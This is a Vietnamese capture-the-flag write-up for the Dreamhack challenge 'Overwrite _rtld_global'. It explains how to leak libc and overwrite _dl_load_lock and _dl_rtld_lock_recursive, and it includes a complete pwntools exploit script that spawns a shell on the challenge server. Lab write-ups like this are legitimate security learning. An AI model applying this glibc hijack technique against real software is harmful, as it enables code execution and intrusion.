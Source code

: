 ```

--------


10 . Overwrite _rtld_global
------

- mặc dù có lời giải nhưng sau mấy tiếng vật vã mới làm ra vì cái pwninit lỗi và libc củ chuối :)))
- reverse : nó sẽ cho ta thay đổi giá trị mà ta muốn , sử dụng 1 để tiếp tục vòng lặp while , được cho sẵn libc

![image](https://hackmd.io/_uploads/rktD8ro7Je.png)

ở đây ta thấy dl_load_lock dc truyền như đối số , còn __rtld_lock_lock_recursive sẽ thực thi đối số đó ( ở đây nó là 1 con trỏ hàm )

![image](https://hackmd.io/_uploads/rk3uUrjXkl.png)

- ta sẽ làm bài này như sau
    - lấy địa chỉ libc
    - lấy libc_base + ld_base
    - lấy địa chỉ rtld_global ( được lấy từ ld )
    - lấy địa chỉ  _dl_rtld_lock_recursive & _dl_load_lock


![image](https://hackmd.io/_uploads/ryroLBiQyl.png)


```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./ow_rtld_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")
#p = process(exe.path)
p = remote('host3.dreamhack.games', 9955)
context.binary = exe
p.recvuntil(b'stdout: ')
leak = int(p.recvline()[:-1],16)
libc.address = leak - libc.sym._IO_2_1_stdout_
ld_base = libc.address + 4132864
rtld_global = ld_base + ld.symbols['_rtld_global']
dl_load_lockc = rtld_global + 2312
dl_rtld_lock_recursive = rtld_global + 3840
p.sendlineafter(b'> ','1')
p.sendlineafter(b'addr: ',str(dl_load_lockc))
p.sendlineafter(b'data: ',str(u64('/bin/sh\x00')))
p.sendlineafter(b'> ','1')
p.sendlineafter(b'addr: ',str(dl_rtld_lock_recursive))
p.sendlineafter(b'data: ',str(libc.sym.system))
p.sendlineafter(b'> ',b'2')
p.interactive()
```

ref : 

https://keyme2003.tistory.com/entry/dreamhack-Overwrite-rtldglobal

https://wyv3rn.tistory.com/104

--------

```